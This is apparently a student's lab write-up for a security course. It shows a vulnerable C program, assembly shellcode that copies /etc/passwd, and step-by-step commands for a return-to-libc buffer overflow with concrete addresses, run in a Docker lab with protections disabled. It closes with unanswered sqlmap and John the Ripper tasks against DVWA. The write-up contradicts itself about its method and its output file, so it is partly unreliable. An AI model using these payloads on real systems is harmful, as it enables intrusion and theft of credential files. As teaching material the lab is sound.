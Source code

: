 # Lab #1,22110046, Mai Duc Kien, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.<br>
**Answer 1**


### 1. Build image Run Docker
```
docker build -t img4lab .
```
```
docker run -it --privileged -v $HOME/seclabs:/home/seed/seclabs img4lab
```
![Screenshot 2024-10-21 083918](https://github.com/user-attachments/assets/b8ccbc09-5ff8-424e-bd36-c8b4a0c86ae8)
### 2. Compile asm program and c program

```
nasm -f elf32 -o lab1.o lab1.asm
```
```
ld -m elf_i386 -o lab1 lab1.o
```
```
gcc vullab1.c -o vullab1.out -fno-stack-protector -mpreferred-stack-boundary=2
```
![image](https://github.com/user-attachments/assets/82f4142d-6425-4873-82b9-7268a50f61c2)



### 3. Before doing this lab, we have to turn off ASLR (Address Space Layout Randomization)
```
sudo sysctl -w kernel.randomize_va_space=0
```
![image](https://github.com/user-attachments/assets/948e6588-a50f-4789-95e8-f61a7220a3c2)


### 4. Now we create an environment variable in Linux with the path of file lab1.asm
```
nasm -g -f elf lab1.asm
ld -m elf_i386 -o lab1 lab1.o
pwd -> /home/seed/seclabs/bof
export exploit_path="/seclabs/bof/file_del"
```
![image](https://github.com/user-attachments/assets/4bdb34cd-9bc4-44c7-8587-1a812d3e7ae8)
![image](https://github.com/user-attachments/assets/6920c002-706d-46f6-8f61-6c2152812483)

### 5.Stack Frame

![image](https://github.com/user-attachments/assets/f207d112-107d-4f72-9fe7-e85117ab4b8b)

If we want to exploit

20 bytes to overwrite buf and ebp <br>
4 bytes to overwrite ret addr of vuln with the address of system <br>
4 bytes for the address of exit <br>
4 bytes for argument of system (exploit path that we created before) <br>

```
r $(python -c "print(20*'a' + 'address of system' + 'address of exit' + 'address of env var')")
```

### 6. Use gdb

Use gdb for this c program

```
gdb -q vullab1.out
```
Start the code
```
start
```
Print out the address of those things
```
print system
print exit
find /home/seed/seclabs/bof/vullab1
```

![image](https://github.com/user-attachments/assets/abc8086a-e280-44ef-afdc-60bedb4bca65)


0xf7e50db0: Address of libc_system<br>
0xf7e449e0: Address of exit to avoid crashing <br>
0xffffd914: Address of env variable <br>

### 7. Attack File

Before attack
<br>
![image](https://github.com/user-attachments/assets/00601137-8fcc-4e22-830d-f8f90c4d28cf)

The attack start
```
gdb -q vullab1.out
```
```
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\x14\xd9\xff\xff')")
```

![image](https://github.com/user-attachments/assets/e9b06db2-1738-4674-a04d-526309f9d79d)


After that, we use the code below to read file we have just copied
```
cat /tmp/outfile
```


After attacking, we see that the asm program copy /etc/passwd to /tmp/outfile, not /tmp/pwfile

**Conclusion**: The buffer overflow vulnerability in the C program was successfully exploited using shellcode injection.




# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:





















































